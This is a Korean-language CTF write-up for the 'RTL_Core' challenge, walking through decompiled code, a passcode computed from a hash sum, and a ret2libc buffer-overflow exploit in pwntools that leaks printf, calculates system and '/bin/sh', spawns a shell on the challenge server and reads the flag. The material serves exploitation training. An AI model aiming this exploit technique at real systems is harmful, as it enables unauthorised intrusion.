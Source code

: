 # RTL_Core

```c
kimdong@ubuntu  ~/Wargame/200~250  file rtlcore
rtlcore: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=fa498ff4575e4f3bbca6fa07300ef79f319cfa04, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec rtlcore
[*] '/home/kimdong/Wargame/200~250/rtlcore'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```
이번 바이너리 파일은 32bit로 mitigation은 NX-bit가 설정되어있다.<br>
추가적으로 libc파일도 동봉이 되어있다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./rtlcore
코어 파일에 액세스중입니다...
패스코드를 입력해주세요
Passcode: 1234
실패!
```
실행시켜보면, 문자열이 출력되고 사용자의 입력값을 받은후에, 검증하여 문자열을 다시 출력해주는 형식이다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode(&s) == hashcode )
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881);
  }
  return 0;
}
```
main문은 다음과 같은 형식이다.<br>

사용자에게 gets를 통해 입력을 받고, `check_passcode`라는 함수를 통해 계산을 한 뒤에, hashcode와 비교를 한다.<br>

일치하는 경우에는 `core()`라는 함수를 실행시켜준다.<br>


```c
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  signed int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += *(_DWORD *)(4 * i + a1);
  return v2;
}
```

`check_passcode`함수는 위와 같다.<br>

for문을 돌면서 받은 주소값에 `4byte*i`를 더해서 5번 더해서 v2에 넣어주는 형식이다.<br>

`data:0804A030 hashcode        dd 0C0D9B0A7`<br>

ida로 확인한 `hashcode`의 값은 `0x0c0d9b0a7`이다.<br>

따라서, 4byte씩 주소값을 증가시키면서 받아오는 형식이므로, `0x0c0d9b0a7`를 5로 나눠서 보내면된다.<br>
`0c0d9b0a7`은 5로 정확히 나눠지지 않으므로, 마지막 payload에 2를 더해서 보내주면 된다.<br>

## Passcode
```c
from pwn import *
p = process("./rtlcore")
payload = p32(0x2691f021)*4
payload += p32(0x2691f023_
p.recvuntil("Passcode: ")
p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame/200~250  python passcoe.py
[+] Starting local process './rtlcore': pid 8731
[*] Switching to interactive mode
코드가 일치하구나. 좋아, 다음 단서를 던져주지
너에게 필요한 것은 바로 0xf7e14b60 일거야
```
위의 코드를 실행시키면 `0xf7e14b60`라는 주소를 준다.<br>

```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void *v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void *)((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf");
  printf(&format, v5);
  return read(0, &buf, 0x64u);
}
```
`passcode`를 맞췄으니 실행시키는 `core()` 함수를 보도록하자.<br>

`core()`함수에서 buf의 크기는 62byte지만, read를 통해 100byte를 받아오므로, BOF를 사용하여, ret주소를 조작할 수있다.<br>

`core()`함수에서 보면 위에서 받은 주소는 `printf함수`이다.<br>

따라서 printf함수를 통해 `libc_base`를 구하고, system함수의 주소를 구해서, /bin/bash문자열을 입력하여 쉘을 띄워보자.<br>

`libc_base = printf_addr - libc.symbol['printf']`<br>

`system_addr = libc_base + libc.symbol['system']`<br>

`binsh_addr = libc_base + list(libc.search("/bin/sh"))[0]`<br>

위와 같이 `binsh_addr`을 구할수 있다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3015)
e = ELF("./rtlcore")
libc = ELF("./libc.so.6")

payload = p32(0x2691f021)*4
payload += p32(0x2691f023)
p.recvuntil("Passcode: ")
p.sendline(payload)

p.recvuntil("0x")
printf_addr = int(p.recv(8),16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + list(libc.search("/bin/sh"))[0]


payload2 = "A"*66
payload2 += p32(system_addr)
payload2 += "A"*4
payload2 += p32(binsh_addr)

p.sendline(payload2)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame/200~250  python rtlcore_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
[*] '/home/kimdong/Wargame/200~250/rtlcore'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
[*] '/home/kimdong/Wargame/200~250/libc.so.6'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] Switching to interactive mode
일거야
$ ls
flag
main
$ cat flag
HackCTF{}
```
